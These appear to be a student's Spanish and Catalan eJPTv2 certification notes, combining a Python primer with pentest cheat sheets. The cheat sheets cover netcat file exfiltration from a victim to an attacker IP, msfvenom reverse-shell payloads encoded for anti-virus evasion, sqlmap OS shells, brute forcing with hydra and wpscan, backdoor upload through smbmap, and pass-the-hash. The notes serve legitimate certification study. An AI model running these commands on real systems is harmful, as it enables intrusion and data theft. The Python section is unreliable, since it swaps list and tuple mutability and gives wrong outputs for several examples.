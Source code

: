 # Mi eJPTv2

## 

### Code


<details><summary>**Bash**</summary>

</details>

<details><summary>**Python**
</summary>

    
    
    Strings
    > 
    
    ```python
    print("String_input")
    
    # Para variables
    
    nombre= "Jordi"
    print(f"Hola, me llamo {nombre}")
    
    Output: Hola me llamo Jordi
    ```
    
    Entradas de texto, siempre en comillas
    
    > Formats
    > 
    
    ```python
    # Newline Character
    
    print("\n")
    
    # backslash
    
    print("\\")
    
    # Comilla simple
    
    print("\'")
    
    # Tabulador
    
    print("\t")
    
    # Backspace
    
    print("\b")
    
    ```
    
    > Tipos
    > 
    
    Defineix el tipus de dada
    
    ```python
    x = 10
    print (type(x))
    Output = <class 'ini'>
    
    ```
    
    > Tipos de datos
    > 
    
    ```python
    **Integer** = Numeros enteros > x = 4
    **Float** = Numeros decimales > x = 2.5
    ```
    
    > Listas
    > 
    
    ```python
    example = [1,2,3]
    example = [1,"prova", 10]
    
    ```
    
    no mutable:
    
    ```python
    example.append (4) > Attributte error
    
    ```
    
    > Ordenar listas
    > 
    
    ```python
    example = list{range(0,11)}
    print (example)
    Output: [0,1,2,3,4,5,6,7,8,9,10]
    
    ```
    
    > Tuplas
    > 
    
    ```python
    example = (1,2,3)
    example1 = (("a","b","c") , (1,23))
    
    mutable:
    
    example.append (4) > 1,2,3,4
    
    ```
    
    > Buscar funciones
    > 
    
    ```python
    dir(__builtins__)
    dir(list)
    dir(str)
    dir(dict)
    
    ```
    
    > yuda funciones
    > 
    
    ```python
    help (function)
    
    ```
    
    > Diccionarios
    > 
    
    ```python
    example = {'input1':value, 'input2':value, 'input3':value}
    
    ```
    
    Ex:
    
    ```python
    search_engines_users = {"google": 1000, "bing": 127000000, "duck duck go":12000000}
    
    'google':Key
    '1000': value key
    
    ```
    
    > Añadir funciones
    > 
    
    ```python
    example = [1,2,3,4]
    plus = [5,6]
    example.append (plus)
    Output: [1,2,3,4,[5,6]]
    
    ```
    
    > Extender funciones
    > 
    
    ```python
    example = [1,2,3,4]
    plus = [5,6]
    example.extend (plus)
    Output: [1,2,3,4,5,6]
    
    ```
    
    ### INDEX
    
    > Funciones de indice
    > 
    
    ```python
    example = ['a','b','c','d']
    
    print (example[1])
    Output = ['b']
    print example[0]
    Output = ['a']
    print example [1:3]
    Output = ['b','c','d']
    
    ```
    
    > Funciones de indice de numero
    > 
    
    ```python
    example = ['hola',4,5,6]
    print example [0]
    Output: 'hola'
    
    print example[0][2]
    Output: 'l'
    
    print example [1]
    Output: 4
    
    ```
    
    Para diccionarios
    
    ```python
    Numbers:
    
    example = {"Joan": 4, "Marta": 2, "Lluna": 8}
    print ("Joan")
    Output: 4
    
    Strings:
    
    example = {"mati": "Sol", "tarda": "nuvol", "nit": "pluja"}
    print ("tarda")
    Output = 'nuvol'
    
    ```
    
    ### CONVERSION
    
    > De tupla a lista
    > 
    
    ```python
    1. >>> cool_tuple = (1, 2, 3)
    2. >>> cool_list = list(cool_tuple)
    3. >>> cool_list
    4. [1, 2, 3]
    
    ```
    
    > De lista a tupla
    > 
    
    ```python
    1. >>> cool_list = [1, 2, 3]
    2. >>> cool_tuple = tuple(cool_list)
    3. >>> cool_tuple
    4. (1, 2, 3)
    
    ```
    
    > De string a lista
    > 
    
    ```python
    1. >>> cool_string = "Hello"
    2. >>> cool_list = list(cool_string)
    3. >>> cool_list
    4. ['H', 'e', 'l', 'l', 'o']
    
    ```
    
    > De lista a string
    > 
    
    ```python
    1. >>> cool_list = ['H', 'e', 'l', 'l', 'o']
    2. >>> cool_string = str.join("", cool_list)
    3. >>> cool_string
    4. 'Hello'
    
    ```
    
    > Definicion de funciones
    > 
    
    ```python
    def nombre_funcion(parametro1, parametro2, ...):
    
    		# Cuerpo de la función
    		# Código que ejecutará la función
    
    	return valor # Opcional, para devolver un resultado
    
    'def':# Palabra clave que indica que estás definiendo una función
    'nombre_funcion:'# El nombre que le das a la función.
    'parametros:'# Valores que le puedes pasar a la función para que los use'
    'return:'# (Opcional) La función puede devolver un valor utilizando `return`. Si no usas `return`, la función devuelve `None` por defecto.'
    
    ```
    
    ```python
    Ex.1
    
    def saludar(nombre="Amigo"):
    	print(f"Hola, {nombre}!")
    
    saludar() # Salida: Hola, Amigo!
    saludar("Ana") # Salida: Hola, Ana!
    
    ```
    
    > User Input
    > 
    
    ```python
    #Opció 1
    
    user_input = input("Posa el teu nom")
    missatge = "Hola %s" % user_input
    print (missatge)
    # Posa en el %s el valor de user inmpu
    
    # Per diferents variables:
    nom = input ("Posa el teu nom:")
    cognom = input ("Posa el teu cognom:")
    message = "Hola %s %s" % (nom,cognom)
    print(message)
    
    ------------------------------------------------------
    
    # Opció 2
    user_input = input("Posa el teu nom")
    missatge = f"Hola {user_input}:"
    print (missatge)
    
    # Per diferents variables:
    nom = input ("Posa el teu nom:")
    cognom = input ("Posa el teu cognom:")
    
    message = f"Hola {nom}{cognom}"
    
    # Opció 3
    
    1. name = "John"
    2. surname = "Smith"
    
    4. message = "Your name is {}. Your surname is {}".format(name, surname)
    5. print(message)
    
    ```
    
    ### **BUCLES**
    
    > Bucle FOR
    > 
    
    ```python
    values = [1,2,3,4,5]
    for valor in values
    	print (valor)
    
    # Ex 1: Simple
    
    colors = [1,2,3,4,5]
    for color in colors:
    	print (color)
    # el color , representa los indices de la variable colors. El bucle seria : imprime cada indice (print color) que esta dentro de la variable colors
    
    # Es 2: Usando operadores
    
    colors = [11, 34.1, 98.2, 43, 45.1, 54, 54]
    
    for color in colors:
        if isinstance (color,int) and color > 50 :
            print (color)
    
    # Se pueden usar operadores para sumar condiciones (AND y OR)
    
    # Ex 3: Llamando a funciones
    
    def celsius_to_kelvin(cels):
    return cels + 273.15 # esto es la formula que converite celsius a kelvin
    for temperature in [9.1, 8.8, -270.15]: # se pasa una lista de temperaturas
    	print(celsius_to_kelvin(temperature)) # imprime cada item de la lista, pasado por   la funcion celsius_to_kelvin
    
    # Ex 4: Usando diccionarions
    
    notas_estudiantes = {"Pol": 4, "Joan": 5, "Laia": 8}
    
    for notas in notas_estudiantes.items():
    	print (notas)
    
    Output: ('Pol', 4) ('Joan', 5) ('Laia', 8)
    
    # Para mostrar los nombres, usamos el valor "keys"
    for notas in notas_estudiantes.keys():
    Output: Pol ,Joan, Laia
    
    # Para mostrar las notas, usamos el valor "values"
    for notas in notas_estudiantes.values():
    Output: 4,5,8
    
    ```
    
    ```python
    Uso de FOR en diccionario formateando texto
    
    # Ex 1: Iterando en los indices
    
    phone_numbers = {"John": "+37682929928", "Marry": "+423998200919"}
    
    for pair in phone_numbers.items():
    	print(f"{pair[0]} has as phone number {pair[1]}")
    
    # Ex 2: Iterando en las keys y values de la lista
    
    phone_numbers = {"John": "+37682929928", "Marry": "+423998200919"}
    
    for key, value in phone_numbers.items():
    	print(f"{key} has as phone number {value}")
    
    ```
    
    > Bucle WHILE
    > 
    
    ```python
    a= 3
    
    while a > 0:
    	print(1)
    	print(2)
    
    Output:
    1
    2
    1
    2
    1
    2
    .
    .
    .
    
    # User INPUT example : Va demanant "Enter username" fins que coincideixi amb "marco"
    
    username = ''
    
    while username != "marco":
    	username = input ("Enter username:")
    ```
    

### Basics

- **Curl & Wget**
    
    
    - CURL
        
        Curl por GET
        
        ```bash
        curl -s -X GET "<http://IP>"
        
        ```
        
        CURL cookie setting
        
        ```bash
        'Obtención de cookie y datos:'
        
        curl -i <http://IP>
        
        Output:
        
        HTTP/1.1 200 OK
        Server: nginx/1.18.0 (Ubuntu)
        Date: Wed, 16 Oct 2024 19:15:03 GMT
        Content-Type: text/html
        Content-Length: 1145
        Connection: keep-alive
        Set-Cookie: THM=Guest; expires=Wed, 16-Oct-2024 20:05:03 GMT; path=/
        Vary: Accept-Encoding
        ```
        
        Modificar valor cookie
        
        ```bash
        
        curl -b "THM=Admin" '<http://10.10.203.238/challenges/chall2.php>'
        ```
        
        Verificar web
        
        ```bash
        curl -s -o /dev/null -w "%{http_code}\n" http://url
        
        -s (silent): Suprime la barra de progreso y los mensajes de error.
        -o /dev/null: Redirige la salida del contenido de la respuesta a /dev/null (básicamente, lo descarta).
        -w "%{http_code}\n": Muestra solo el código de estado HTTP de la respuesta (por ejemplo, 200 para éxito, 404 para no encontrado, 500 para error del servidor, etc.).
        
        ```
        
    - WGET
        
        ```bash
        # Descargar archivo
        wget http://example.com/file
        
        # Descargar archivo renombrado
        wget -O filenmae http://example.com/file
        
        # Descargar mas de un fichero
        wget http://example.com/file1 http://example.com/file2
        
        # Descargar todos los archivos del servidor
        wget -r http://example.com/directory_files
        ```
        
    
- **Tratamiento TTY**
    
    1.
    
    ```bash
    script /dev/null -c bash
    CTRL + Z
    stty raw -echo; fg
    reset xterm
    export TERM=xterm
    export SHELL=bash
    ```
    
- **Gestión ficheros**
    - **Upload**
        
        
        Upload files to FTP
        
        ```bash
        curl -T shell.php -u "usuari:password" ftp://IP_SERVIDOR/CARPETA/fitxer.*
        
        Ex:
        
        curl -T shell.php -u "anonymous:anonymous" ftp://172.17.0.3:21/upload/shell.php
        ```
        
    - **Download**
        
        Netcat
        
        ```bash
        # Attack Machine
         nc -lvp 4444 > FiletoDownload
        
        # Victim Machine
        nc 192.168.1.35 4444 -w 3 < FiletoDownload
        
        ```
        
        Montar un servidor web
        
        ```bash
        
        # Attack Machine
        python -m SimpleHTTPServer 8080
        python3 -m http.server 80 (dins de la carpeta on tenim els fitxers)
        
        # Victim Machine
        wget attacker_IP/file
        
        Ex: 
        wget http://192.168.1.39:8080/FiletoDownload
        
        ```
        
        SCP
        
        ```bash
        #Uploading a file from a local computer to a remote one:
        
        scp /path/to/local/file username@hostname:/path/to/remote/file
        
        #Downloading a file from a remote system to your computer:
        
        scp username@hostname:/path/to/remote/file /path/to/local/file
        
        ```
        
- **SQL**
    
    
    **CREATE : Crear elementos**
    
    ```sql
    CREATE DATABASE company;
    
    # Create an Index on a Table 
    
    CREATE INDEX idx_department ON employees (department);
    
    #CREATE: Create a New Table, Database or Index
    
    CREATE TABLE employees (
      employee_id INT PRIMARY KEY,
      first_name VARCHAR(50),
      last_name VARCHAR(50),
      department VARCHAR(50),
      salary DECIMAL(10, 2)
    );
    ```
    
    **USE: usar actual**
    
    ```sql
    USE company;
    ```
    
    **ALTER : modificar elementos**
    
    ```sql
    ALTER DATABASE database_name
    
    #ALTER TABLE: Modify An Existing Table's Structure
    
    ALTER TABLE employees
    ADD COLUMN new_column INT;
    ```
    
    **INSERT INTO: añadir elementos**
    
    ```sql
    INSERT INTO employees (employee_id, first_name, last_name, department, salary)
    VALUES
      (1, 'John', 'Doe', 'HR', 50000.00),
      (2, 'Jane', 'Smith', 'IT', 60000.00),
      (3, 'Alice', 'Johnson', 'Finance', 55000.00),
      (4, 'Bob', 'Williams', 'IT', 62000.00),
      (5, 'Emily', 'Brown', 'HR', 48000.00);
    ```
    
    **DROP DATABASE: Delete an Existing Database**
    
    ```sql
    DROP DATABASE company;
    
    #Remove an Index 
    
    DROP INDEX IF EXISTS idx_department;
    ```
    
    **SELECT: obtener información**
    
    ```sql
    SELECT * FROM employees;
    ```
    
    **DISTINCT: Seleccionar valores unicos de una columna**
    
    ```sql
    SELECT DISTINCT department FROM employees;
    ```
    
    **WHERE: Filtra filas segun criterios**
    
    ```sql
    SELECT * FROM employees WHERE salary > 55000.00;
    ```
    
    **LIMIT: Limita el numero de filas segun criterio**
    
    ```sql
    SELECT * FROM employees LIMIT 3;
    ```
    
    **UPDATE: Modifica registros de una tabla**
    
    ```sql
    UPDATE employees
    SET salary = 55000.00
    WHERE employee_id = 1;
    ```
    
    **DELETE: Elimina registros de una tabla**
    
    ```sql
    DELETE FROM employees
    WHERE employee_id = 5;
    ```
    
    **WHERE: Filtra filas segun criterios**
    
    ```sql
    SELECT * FROM employees
    WHERE department = 'IT';
    ```
    
    **LIKE: Busca coincidencias** 
    
    ```sql
    SELECT * FROM employees
    WHERE first_name LIKE 'J%';
    ```
    
    **IN: Cualquier coincidencia en la lista**
    
    ```sql
    SELECT * FROM employees
    WHERE department IN ('HR', 'Finance');
    ```
    
    **IS NULL: Busca valores NULL**
    
    ```sql
    SELECT * FROM employees
    WHERE department IS NULL;
    ```
    
    **ORDER BY: Ordena los resultados segun criterio**
    
    ```sql
    SELECT * FROM employees
    ORDER BY salary DESC;
    ```
    
    **SUBQUERYS**
    
    ```sql
    # Single Row
    
    SELECT first_name, last_name
    FROM employees
    WHERE salary = (SELECT MAX(salary) FROM employees);
    
    # Multiple Row
    
    SELECT department_name
    FROM departments
    WHERE department_id IN (SELECT department_id FROM employees);
    
    ```
    

### Utils

- **Local Port Forwarding (SSH)**
    
    
    Para acceder a un servicio que hay en una maquina remota y que no es accesible desde el exterior, únicamente desde localhost.  Aplica cuando obtenemos acceso a una maquina y vemos algún servicio corriendo solo en local.
    
    ```bash
    # Victim machine: 
    10.129.88.226
    # Service in victim machine visble only on local host
    postgresql 
    port 5432
    # User in victim machine : 
    Christine (with credentials)
    
    # Attacker machine
    localhost
    # Port
    1111
    
    Conection:
    
     
    # Use for example port 1111 in this case
    
    ❯ ssh -L 1111:127.0.0.1:5432 christine@10.129.88.226
    
    # Connection with remote postgresql
     
    ❯ psql -h 127.0.0.1 -p 1111 -U christine
    ```
    
- **Metasploit**
    
    
    - **Basic options**
        - Search for module:
        
        ```bash
        msf > search [regex]
        ```
        
        - Specify and exploit to use:
        
        ```bash
        msf > use exploit/[ExploitPath]
        ```
        
        - Specify a Payload to use:
        
        ```bash
        msf > set PAYLOAD [PayloadPath]
        ```
        
        - Show options for the current modules:
        
        ```bash
        msf > show options
        ```
        
        - Set options:
        
        ```bash
        msf > set [Option] [Value]
        ```
        
        - Start exploit:
        
        ```
        msf > exploit
        ```
        
    - **Meterpreter**
        - Base Commands:
            - `? / help` : Display a summary of commands exit / quit: Exit the Meterpreter session
            - `sysinfo`: Show the system name and OS type
            - `shutdown / reboot` : Self-explanatory
        - File System Commands:
            - `cd` : Change directory
            - `lcd` : Change directory on local (attacker's) machine
            - `pwd / getwd` : Display current working directory
            - `ls` : Show the contents of the directory
            - `cat` : Display the contents of a file on screen
            - `download / upload` : Move files to/from the target machine
            - `mkdir / rmdir` : Make / remove directory
            - `edit` : Open a file in the default editor (typically vi)
        - Process Commands:
            - `getpid` : Display the process ID that Meterpreter is running inside.
            - `getuid` : Display the user ID that Meterpreter is running with.
            - `ps` : Display process list.
            - `kill` : Terminate a process given its process ID.
            - `execute` : Run a given program with the privileges of the process the Meterpreter is loaded in.
            - `migrate` : Jump to a given destination process ID
        - Network Commands:
            - `ipconfig` : Show network interface information
            - `portfwd` : Forward packets through TCP session
            - `route` : Manage/view the system's routing table
        - Other Commands:
            - `idletime`: Display the duration that the GUI of thetarget machine has been idle.
            - `uictl [enable/disable] [keyboard/mouse]` : Enable/disable either the mouse or keyboard of the target machine.
            - `screenshot` : Save as an image a screenshot of the target machine.
        - Additional Modules:
            - `use [module]` : Load the specified module
                - **Examples**:
                    - `use priv` : Load the priv module
                    - `hashdump` : Dump the hashes from the box
                    - `timestomp` : Alter NTFS file timestamps
    - **Manage Sessions**
        
        
        - **Multiple Exploitation**
            - Run the exploit expecting a single session that is immediately backgrounded:
            
            ```
            msf > exploit -z
            ```
            
            - Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
            
            ```
            msf > exploit –j
            ```
            
            - List all current jobs `exploit listeners`:
            
            ```
            msf > jobs –l
            ```
            
            - Kill a job:
            
            ```
            msf > jobs –k [JobID]
            ```
            
        - **Multiple Sessions:**
            
            
            - List all backgrounded sessions:
            
            ```bash
            msf > sessions -l
            ```
            
            - Interact with a backgrounded session:
            
            ```bash
            msf > session -i [SessionID]
            ```
            
            - Background the current interactive session:
            
            ```
            meterpreter > <Ctrl+Z>
            ```
            
            or
            
            ```bash
            meterpreter > background
            ```
            
            - Routing Through Sessions:
            
            All modules against the target subnet mask will be pivoted through this session.
            
            ```bash
            msf > route add [Subnet to Route To]
            [Subnet Netmask] [SessionID]
            ```
            
- **Msfvenom**
    
    
    ```bash
    $ msfvenom –p [PayloadPath]
    –f [FormatType]
    LHOST=[LocalHost (if reverse conn.)]
    LPORT=[LocalPort]
    ```
    
    - Example: Reverse Meterpreter payload as an executable and redirected into a file:
        
        ```bash
        $ msfvenom -p windows/meterpreter/
        reverse_tcp -f exe LHOST=192.168.1.1
        LPORT=4444 > met.exe
        ```
        
    - Format Options **(specified with –f)** --help-formats – List available output formats
        - `exe` – Executable
        - `pl` – Perl
        - `rb` – Ruby
        - `raw` – Raw shellcode
        - `c` – C code
    
    - Encoding Payloads with msfvenom
        
        msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.
        
        ```bash
        $ msfvenom -p [Payload] -e [Encoder] -f
        [FormatType] -i [EncodeInterations]
        LHOST=[LocalHost (if reverse conn.)]
        LPORT=[LocalPort]
        ```
        
    
    - Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:
        
        ```bash
        $ msfvenom -p windows/meterpreter/
        reverse_tcp -i 5 -e x86/shikata_ga_nai -f
        exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
        ```
        
- **Pentesting CI/CD**
    
    
    - **Jenkins Security**
        
        Enumeration
        
        ```sql
        msf> use auxiliary/scanner/http/jenkins_enum
        ```
        
        Execute commands without authentication
        
        ```sql
        msf> use auxiliary/scanner/http/jenkins_command
        ```
        
    - Github
    - Gitlab
    - Bitbucket
    - Gitea
    
- **Gestores de Contenido**
    
    ### WordPress
    
    **Enumeración general WordPress** 
    
    Enumerar usuarios
    
    ```bash
    wpscan --url http://exmaple.com -e u
    -u : username
    -p: password
    ```
    
    Fuerza burta usuario
    
    ```bash
    wpscan --url http://exmaple.com -U usuario -P /usr/share/wordlists/rockyou.txt
    ```
    
    Plugin scan
    
    ```bash
    wpscan --uel http://example.con -e u,p --api-toke='API'
    # La API la sacanos del perfil de nuestra cuenta de Webscan
    
    wpscan --uel http://example.con -e u,p --api-toke='API' --plugibs.detection aggressive -L 50
    
    # Modo deteccion agresivo con 50 hilos
    ```
    
    Fuzzear Plugins WordPress
    
    ```bash
    git clone https://github.com/Perfectdotexe/WordPress-Plugins-List.git
    plugins.txt
    
    Probar el listado de plugins en el directorio mediante fuzzing web
    
    gobuster dir -u 'http://example.com/wp-content/plugins' -w plugins.txt
    ```
    
    ```bash
     wpscan --url http://example -P /usr/share/wordlists/rockyou.txt
    
    # Ignore TLS check (--disable-tls-checks)
    wpscan --url https://example.com -P wordlist.txt --disable-tls-checks
    
    # -U : Specifify username
    # --rua: random user agent
    # --http-auth username:password
    # -e: enumerate
    #  ap: All plugins
    #  at: All themes
    #  tt: Timthumbs
    #  cb: Config backups
    #  dbe: Db exports
    #  u: User IDs range
    #  m: Media IDs range
    
    wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://example.com -U username -P /usr/share/wordlists/rockyou.txt
    ```
    
    **Common directories**
    
    ```bash
    /author/admin/
    /index.php/author/admin/
    /license.txt
    /readme.html
    /robots.txt
    
    /wp-admin/
    /wp-admin/admin-ajax.php
    /wp-admin/upload.php
    /wp-content/
    /wp-content/uploads/
    /wp-includes/
    /wp-json/wp/v1/
    /wp-json/wp/v1/users
    /wp-json/wp/v2/
    /wp-json/wp/v2/users
    /wp-login.php
    
    # Users
    /?author=1
    /?author=2
    
    # Posts
    /?p=1
    /?p=2
    
    # Private/Draft Posts (WordPress <= 5.2.3) 
    /?static=1
    ```
    
    Parametro busqueda WordPress
    
    ```bash
    # Todos los WordPress presnetan un parametro de busqueda 
    http://example.es/course/
    
    /s=
    
    http://example.es/course/s=Cadena a buscar
    
    # Si buscamos cadenas huerfanas podemos acceder a recursos que normalmente
    # no podriamos.
    
    ```
    
    ### Mongo
    
    ```bash
    #Conexión remotoa BD
    
    mongo <target-IP>:<port>
    
    show dbs # Muestra las bases de datos
    use db # selecciona la base de datos para trabajar
    show collections # Muestra contenido de la bd (ex:admin,config)
    db.admin.find() # Muestra contenido de la tabla
    db.admin.find().pretty()# Muestra el contenido de la tabla en formato leible
    ```
    
    ### Drupal
    
    Drupa IP
    
    ```bash
    whatweb http://example.com
    ```
    
    Metasploit
    
    ```bash
    Drupa <=8 vulnerable
    
    msf> search drupal 8
    
    Una vez explotado, enumerar Drupal
    
    shell> find / -name settings.php 2>/dev/null
    /var/www/html/sites/default/settings.php
    
    Buscar credenciales en el fichero de configuración
    ```
    
    ### Magento
    
- **SQLMap**
    
    
    Eunumerar BD
    
    ```bash
    # Conocer las bases de datos.
    
    sqlmap -u 'http://<IP máquina víctima>' --forms --dbs --batch
    
    # Conocer las tablas de la BD (Ex: Webapp)
    
    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp --tables --batch
    
    # Conocer las columnas de la tabla de la BD
    
    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp -T Users --columns --batch
    
    # Conocer la información que hay en esas columnas (ex: username,password)
    
    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp -T Users -C username,password --dump --batch
    ```
    
    Para parametros que sabemos vulnerables
    
    ```bash
    sqlmap -u 'http://victim.site/view.php?id=1141' -p id
    ```
    
    Cuando estamos autenticados como algún usuario, 
    
    ```bash
    sqlmap -u 'http://victim.site/dashboard.php?search=1' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1"
    ```
    
    Para ejecutar comandos de sistema:
    
    ```bash
    sqlmap -u 'http://victim.site/dashboard.php?search=1' --os-shell
    ```
    

## Enumeracion

### Enumeración de servicios

### Port 21 | FTP

Conexión con usuario anónimo por defecto:

```bash
ftp <IP>
>anonymous
>anonymous
```

Escaneo con Nmap para servicio FTP

```bash
# Enumeración versión ftp

nmap -sV -p 21 --open <IP>

# Verificar conexión anonima

nmap --script=ftp-anon -p21 10.10.14.12

# Todos los scripts de nmap para puerto 21

nmap --script ftp-* -p 21 <IP>

# Para ver los scripts relacionados con FTP

find / -type f -name ftp* 2>/dev/null | grep scripts

/usr/share/nmap/scripts/ftp-syst.nse
/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-bounce.nse
/usr/share/nmap/scripts/ftp-libopie.nse
/usr/share/nmap/scripts/ftp-anon.nse
/usr/share/nmap/scripts/ftp-brute.nse
```

Banner grab

```bash
telnet <IP> 21
nc <IP> 21
```

Descargar  ficheros de un FTP

```bash
# Local

ftp> get Directorio\ archivo.txt

# Remoto

wget -m ftp://anonymous:anonymous@IP
wget -m --no-passive ftp://anonymous:anonymous@IP
```

Subir fichero a FTP

```bash

# Local
touch ficehro.txt

# En servidor FTP
ftp> put fichero.txt

```

Modulo para metasploit

```bash
use auxiliary/scanner/ftp/anonymous
```

Bruteforce FTP

```bash
# Conociendo usuario
hydra -l admin -P /usr/share/wordlist/rockyou.txt ftp://192.168.0.1

#Sin conocer user ni password
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```

### Port  22 | SSH

Conexión ssh

```bash
nc IP 22
ssh usuario@<IP>
```

Banner grabbing

```bash
nc -vn <IP> 22
```

Scripts Nmap

```bash
find / -type f -name ftp* 2>/dev/null | grep scripts

```

```bash
nmap -p 22 --script ssh2-enum-algos <TARGET_IP>
nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full <TARGET_IP>
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<USER>" <TARGET_IP>
nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=<USER>, ssh-run.password=<PW>" <TARGET_IP>
nmap -p 22 --script=ssh-brute --script-args userdb=<USERS_LIST> <TARGET_IP>
```

Modulos Metasploit

```bash
auxiliary/scanner/ssh/ssh_version
auxiliary/scanner/ssh/ssh_login

# Fuerza bruta para enumerar usuarios
msf> use scanner/ssh/ssh_enumusers

# Fuerza burta para Clave Privada
msf> use scanner/ssh/ssh_enumusers
```

Bruteforce SSH

```bash
hydra -l <usuario> -P /usr/share/wordlist/rockyou.txt ssh
```

### Port  23 | Telnet

Conexión telnet

```bash
telnet <IP>
```

Banner grabbing

```bash
nc -vn <IP> 23
```

Scripts nmap

```bash
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <IP>
```

### Port 25,465 | SMTP

Conexión SMPT

```bash
openssl s_client -crlf -connext smtp.examplmail.org:465 #SSl/TLS sin starttls
openssl s_client -starttls smtp -crlf -connect smpt.examplemail.org:465
```

Banner grabbing 

```bash
nc -vn <IP> 25
```

Scripts nmap

```bash
nmap -p25 --script smtp-commands <IP>
nmap -p25 --script smtp-open-relay <IP> -v
```

Bruteforce smtp

```bash
#Script Nmp
nmap --script smtp-enum-users <IP>

# Modulo metasploit enumerar usuarios por fuerza bruta
auxiliary/scanner/smtp/smtp_enum
```

### Port  80, 443 | Pentesting Web

[**Web Pentesting**](Mi%20eJPTv2%2015a360cb06dd80fd9fc5da852b447fd5/Web%20Pentesting%20170360cb06dd803bba9ddd7fc1598a51.md)

### Port  137,138,139 | NetBios

Enumerar servicio NetBios 

```bash
nmblookup -A <IP>
nbtscan <IP>/30
sudo nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n <IP>
```

### Port 139, 445 | SMB

Enumeración automatica con Enum4linux

```bash
enum4linux -a target_ip

enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
```

Enumeración con nmap

```bash
nmap --script "safe or smb-enum-*" -p 445 <IP>
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains <IP> -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* <IP> -v

```

Escanear una red en busca de hosts

```bash
nbtscan -r <IP>/24
```

Para poder usar algun exploit para smb, necesitamos conocer la versión. Podemos hacerlo con el modúlo de metasploit:

```bash
MSF _auxiliary/scanner/smb/smb_version

Buscar exploit:

msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

Obtener información del entorno SMB

```bash
#Connect to the rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
```

Listar recursos,  usuarios, grupos,etc

```bash
# SMBClinet (no muestra permisos sobre los recuros)

smbclient -L <IP>smb -N 

- N: null session

# Crackmapexec (listamos recrusos sin disponer de credenciales)

crackmapexec smb <IP> -u '' -p '' --shares  # Null user

crackmapexec smb <IP> --users [-u <username> -p <password>]
crackmapexec smb <IP> --groups [-u <username> -p <password>]
crackmapexec smb <IP> --groups --loggedon-users [-u <username> -p <password>]

crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user

# SMBMap

smbmap -u guest -p "" -d . -H <TARGET_IP>
smbmap -u <USER> -p '<PW>' -d . -H <TARGET_IP>
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -x 'ipconfig' ## Run a command
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -L ## List all drives
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -r 'C$' ## List dir content
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --upload '/root/sample_backdoor' 'C$\sample_backdoor' ## Upload a file
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt' ## Download a file

# Metasploit

use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run
```

Conectar/Listar carpeta compartida

```bash
# SMBClinet

smbclient //<IP>/<Folder> -N # Null user
	
smbclinet //<IP>/<folder> -U "username"

# Smbmap, without folder it list everything

smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
```

Metasploit modules

```bash
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor
```

Los nombres de recursos compartidos comunes para objetivos de Windows son

- C$
- D$
- ADMIN$
- IPC$
- PRINT$
- FAX$
- SYSVOL
- NETLOGON

Bruteforce SMB

```bash
#Nmap

nmap --script smb-brute -p 445 <IP>

hydra -l Administrator -P words.txt <IP> smb -t 1
```

### Port 3306 | MySQL

Conexión

```bash
# Local

mysql -u root # Conectar como root sin password
mysql -u root -p # Password requerido

# Remoto

mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

Enumeración

```bash
# Nmap

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>

# Metasploit

use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
```

Comandos MySQL

```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

# Obtener shell
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
